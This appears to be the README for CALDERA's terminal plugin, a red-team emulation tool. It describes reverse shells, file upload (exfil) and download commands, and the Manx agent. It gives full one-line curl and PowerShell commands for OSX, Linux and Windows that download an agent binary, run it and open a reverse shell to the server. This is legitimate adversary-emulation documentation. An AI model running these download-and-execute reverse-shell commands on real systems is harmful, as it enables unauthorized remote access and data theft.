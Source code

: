 Plugin: terminal
=============

The terminal plugin adds reverse-shell capability to CALDERA. 

When this plugin is loaded, you'll get access to a new GUI page which allows you to drop reverse-shells on target hosts 
and interact manually with the hosts. 

You can use the terminal emulator on the Terminal GUI page to interact with your sessions. 

### Custom commands

There are a handful of custom commands built into the reverse-shell.

* **upload**: exfil a single file to the server
> example: upload notes.txt
* **download**: drop any file from any of the server's payload directories on the target
> example: download sandcat.go-linux

## Manx agent

The terminal plugin provides an agent called Manx. Manx can use the TCP or UDP contacts available on the server, 
defaulting to TCP. To deploy Manx, use one of the below commands

> You can also go to the plugins -> terminal GUI page and view these same delivery commands, along with a few other customized options. 

**OSX**:
```
server="http://localhost:8888";socket="localhost:5678";contact="tcp";agent=$(curl -svkOJ -X POST -H "file:manx.go" -H "platform:darwin" $server/file/download 2>&1 | grep -i "Content-Disposition" | grep -io "filename=.*" | cut -d'=' -f2 | tr -d '"\r') && chmod +x $agent 2>/dev/null && ./$agent -http $server -socket $socket -contact $contact -v;
```

**Linux**:
```
server="http://localhost:8888";socket="localhost:5678";contact="tcp";agent=$(curl -svkOJ -X POST -H "file:manx.go" -H "platform:linux" $server/file/download 2>&1 | grep -i "Content-Disposition" | grep -io "filename=.*" | cut -d'=' -f2 | tr -d '"\r') && chmod +x $agent 2>/dev/null && ./$agent -http $server -socket $socket -contact $contact -v;
```

**Windows / PowerShell**:
```
$server="http://localhost:8888"; $socket="0.0.0.0:5678"; $contact="tcp"; $url="$server/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","manx.go"); ($data=$wc.DownloadData($url)) -and ($name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","")) -and ([io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data)) | Out-Null; iex "C:\Users\Public\$name.exe -http $server -socket $socket -contact $contact -v";
```

Note the each of the commands above use 3 parameters: 

**server**: the FQDN of the server

**socket**: the socket address to connect to. Replace 0.0.0.0 with teh server IP address. The port can be either 5678 
(for TCP) or 5679 (for UDP).

**contact**: which contact to use, this can be either TCP or UDP.
